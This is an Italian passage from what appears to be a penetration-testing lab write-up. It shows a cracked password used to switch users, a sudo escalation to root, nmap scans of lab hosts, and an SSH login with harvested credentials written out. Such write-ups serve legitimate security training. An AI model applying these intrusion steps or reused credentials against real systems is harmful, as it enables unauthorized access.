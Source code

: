 Decodifico la password tramite questo [sito](https://crackstation.net/)

```bash
amy:backups1
```

E cambio utente 

```bash
su amy
```

Scopro che amy ha privilegi elevati su sudo, così lancio il comando:

```bash
sudo su
```

Divento root e ottengo la flag proof.txt

## 172.16.X.20 {pwned:local&proof}

```bash
sudo nmap -sC -sV -O 172.16.156.20
```

```bash
Nmap scan report for 172.16.156.20 (172.16.156.20)
Host is up (0.027s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 33:4a:77:87:5b:88:f4:f1:f3:bb:75:7b:ec:9e:21:31 (RSA)
|_  256 c8:3a:f1:c9:e1:9c:31:2d:9d:26:df:c7:c5:21:d8:e3 (ECDSA)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Una volta eseguito l'accesso con le credenziali trovate sulla macchina 19 tramite il comando:

```bash
ssh -i ssh andrew@172.16.165.20 
Rb9kNokjDsjYyH
```

Trovo sia la flag local.txt che la flag proof.txt

## 172.16.X.21 - FILES {pwned:proof}

```bash
sudo nmap -sC -sV -O 172.16.156.21
```

```bash
Nmap scan report for 172.16.156.21 (172.16.156.21)
Host is up (0.034s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```